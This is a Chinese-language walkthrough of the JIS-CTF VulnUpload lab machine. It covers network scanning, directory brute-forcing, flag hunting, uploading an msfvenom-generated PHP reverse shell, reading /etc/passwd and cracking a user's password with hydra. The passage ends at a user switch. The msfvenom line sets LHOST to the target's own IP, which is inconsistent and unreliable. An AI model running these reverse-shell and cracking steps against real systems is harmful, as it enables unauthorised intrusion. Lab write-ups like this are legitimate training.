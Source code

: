 

### 攻擊主機：Kali_Linux_2019.3 
### 靶機：JIS-CTF-VulnUpload-CTF01

#### 搜尋靶機IP
> **Kali>** <code>arp-scan -l</code> </br>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/e53f9a10-cfff-4cc6-8ea3-7891432dcc6c)</br>
💡：去掉頭跟尾(IP)，確定靶機為 192.168.203.129


#### 弱點掃描
> 使用nmap進行弱掃
**Kali>** <code>nmap -v -sS -O -A -p- 192.168.203.129</code> </br>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/6ced9f28-af7e-4be8-bbe9-12c976a83bc6)</br>
💡得知有開啟22port和80port

#### 先看看http://192.168.203.129
> 意外發現第四支旗
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/1b4aea6e-8720-47a5-a6ab-4ba0bb10bb08) <br/>
> (在Inspect Element中)<br/>
> 解碼之後：<br/>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/90dd9069-88ed-4e84-bb42-b2909b14955f)<br/>
```js
    There is a vuln of upload service on the next page after you log in. Please find the php-reverse-shell.php under /usr/share/webshells/php in kali linux. In order to get the reverse session from target, run nc -lvnp port#. Edit the "CHANGE THIS" in the  php-reverse-shell.php and then upload it :10 points
```
> 這個線索告訴我接下來要用反向工程，但我先把1~3支旗找回來<br/>

#### 使用dirb嘗試看看<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/378d385b-8ddc-4073-9f80-a24841b581d4)<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/954f81f4-387a-4f15-aa83-fdcdeba341ba)<br/>
> 在 http://192.168.203.129/flag 找到第一支旗<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/3029e6e9-a3a2-4390-91ad-1f08fa929ecd)<br/>
```js
    This is a Jimmy's Cyber Class:10 points
```
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/dd47bca4-4bc2-4d34-963a-36900ca3a86b)<br/>
> 並在admin_area中找到第二支旗，還附了admin的帳密<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/b017c504-588b-4e7c-ae12-8f6d97677872)<br/>
```js
    You might have great time in this security class:10 points
```
> 在CSS中找到hint檔案，找到第三支旗<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/eaed5634-4316-43a6-9f16-86afdf364032)<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/e5449597-ff8a-4b4e-a411-86f6ff4b8ead)<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/3577cf9d-dbc5-4caa-87d0-714a526f7033) <br/>
```js
    Of course you know password crack is illegal:10 points
``` 

#### 進入靶機<br/>
> 使用第二支旗給的帳密<br/>
> 在 http://192.168.203.129/login.php (第四支旗的網頁)進入了可以上傳資料的網頁<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/0c9b6c6b-30d9-4b56-a8dc-dd2da4c0fc21)<br/>
> **使用反向工程**<br/>
> 在我好找的地方養一隻可愛的彩虹小馬<br/>
> <code>msfvenom -p php/reverse_php LHOST=192.168.203.129 LPORT=1234 -f raw > shell.php</code><br/>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/acba887e-1c5f-4741-a252-9417579f4156)<br/>
> 把他上傳<br/>
> 在掃80port的時候注意到有個upload_files，感覺可以讓靶機開我的檔案<br/>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/9beecb0f-a4a7-484b-a481-dad0820cdc88)<br/>
> 在upload_files開啟我的檔案，成功進入靶機<br/>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/1c487e45-5815-4a4c-9833-749ba16edfea)<br/>
> 我這時候只有www-data的權限，做不了甚麼但可以查看使用者<br/>
> <code>Cat /etc/passwd</code><br/>
> 有兩個使用者，Jimmy和technawi可以做密碼破解-->使用hydra<br/>
> 發現Jimmy比較容易破出來<br/>
> 使用Jimmy進行登入<br/>
> 發現bash無法下sudo，故先下bash指令<br/>
> **$** <code>su jimmy</code><br/>




